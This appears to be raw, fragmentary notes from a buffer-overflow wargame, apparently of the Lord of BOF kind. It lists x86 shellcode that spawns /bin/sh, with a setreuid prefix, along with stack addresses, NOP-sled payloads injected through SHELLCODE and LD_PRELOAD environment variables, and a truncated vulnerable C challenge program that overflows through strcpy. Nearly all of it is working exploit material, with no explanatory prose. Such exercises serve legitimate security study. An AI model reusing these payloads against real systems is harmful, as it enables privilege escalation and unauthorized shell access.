 \xcb\x09\x03\x40

/bin/sh
 0xbffffdc0
\xc0\xfd\xff\xbf

tmp/p8
AAAA AAAA AAAA AA

\x66\xb8\xf6\x01\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80
0x01f6
6

0xbffffa68
\x68\xfa\xff\xbf
export SHELLCODE=`python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"'`

\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80

str : 23 => \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80

buf addr : 0xbffffa84 -> 0xbffffae8 -> \xe8\xfa\xff\xbf

SETUID + /BIN/SH
\x66\xb8\xf6\x01\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80


0xbfffd3b8



`python -c 'print "\x90" * 44 + "BB" +"\xfe\xbf"+"\x90" * 10000'`

export LD_PRELOAD=`python -c 'print "/home/skeleton/"+ "\x90" *100 +"\x31\xc0\x50\xb8\x2e\x2e\x73\x68\x66\x05\x01\x01\x50\xb8\x2e\x62\x69\x6e\x04\x01\x50\x89\xe3\x31\xc0\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"'`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <dumpcode.h>

main(int argc, char *argv[])
{
        char buffer[40];
        char *addr;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // check address
        addr = (char *)&strcpy;
        if(memcmp(argv[1]+44, &addr, 4) != 0){
                printf("You must fall in love with strcpy()\n");
                exit(0);
        }

        // overflow!
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // dangerous waterfall
        memset(buffer+40+8, 'A', 4);
```